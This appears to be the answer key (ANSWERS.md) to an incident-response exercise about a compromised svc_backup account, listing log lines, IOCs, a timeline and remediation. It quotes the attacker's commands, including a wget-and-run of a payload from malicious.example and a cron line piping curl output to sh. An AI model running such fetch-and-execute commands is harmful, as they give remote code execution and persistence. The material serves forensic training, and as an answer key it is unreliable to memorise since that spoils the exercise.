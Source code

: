 # ANSWERS.md

**1) Compromised account**
svc_backup. 

**2) Attacker IP(s)**
198.51.100.23. 

**3) Initial access evidence (exact log lines / commands)**
`Oct 24 20:30:30 webserver-01 sshd[2999]: Accepted password for svc_backup from 198.51.100.23 port 42318 ssh2` 

**4) Commands used to download / run payload (exact)**
`wget http://malicious.example/payload.sh -O /tmp/payload.sh`
`chmod +x /tmp/payload.sh && /tmp/payload.sh`
(Shown in syslog.) 

**5) Persistence mechanism added (exact cron line)**
`*/5 * * * * svc_backup /usr/bin/curl -s http://malicious.example/payload.sh | sh` (written to `/var/spool/cron/crontabs/svc_backup`). 

**6) Evidence of privilege escalation / lateral action (exact)**
`Oct 24 20:35:00 webserver-01 su: pam_unix(su:session): session opened for user root by svc_backup(uid=1001)` 

**7) Payload behavior observed (exact / key lines)**
`/tmp/payload.sh: line 1: python: command not found`
`/tmp/payload.sh: executing additional installer`
`/tmp/payload.sh: starting background listener` (kernel/netfilter TCP entries showing connection to DST=10.0.0.5 DPT=4444).

**8) Timeline (short; timestamps only)**

* 20:30:30 — SSH accepted for svc_backup. 
* 20:35:12 — `wget ... /tmp/payload.sh`. 
* 20:35:18 — `chmod +x /tmp/payload.sh && /tmp/payload.sh`. 
* 20:35:40 — cron entry written for persistence. 

**9) IOCs (short list)**

* IP: `198.51.100.23`. 
* URL/domain: `malicious.example` ([http://malicious.example/payload.sh](http://malicious.example/payload.sh)). 
* Files: `/tmp/payload.sh`. 
* Cron entry: `*/5 * * * * svc_backup /usr/bin/curl -s http://malicious.example/payload.sh | sh`. 

**10) One-line remediation actions **

* Remove cron entry. 
* Remove `/tmp/payload.sh` and any related files. 
* Disable `svc_backup` account and rotate credentials. 
* Block `198.51.100.23` and `malicious.example` at network perimeter.

---

End of answers.
